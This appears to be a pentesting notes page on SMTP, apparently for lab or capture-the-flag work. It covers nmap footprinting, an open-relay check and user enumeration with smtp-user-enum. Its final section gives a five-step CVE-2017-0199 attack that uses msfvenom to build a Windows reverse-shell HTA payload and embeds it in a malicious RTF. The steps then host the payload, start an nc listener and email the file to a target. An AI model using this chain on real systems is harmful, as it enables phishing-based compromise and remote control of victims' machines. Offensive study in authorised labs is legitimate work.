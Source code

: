 # Simple Mail Transfer Protocol

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

## Footprinting The Service

### **Nmap**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sC -sV -p25
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### **Nmap - Open Relay**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Enumerate users

Response codes from smtp servers may vary example code 250 & 252 is considered a valid user and smtp-user-enum checks only for 250

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v
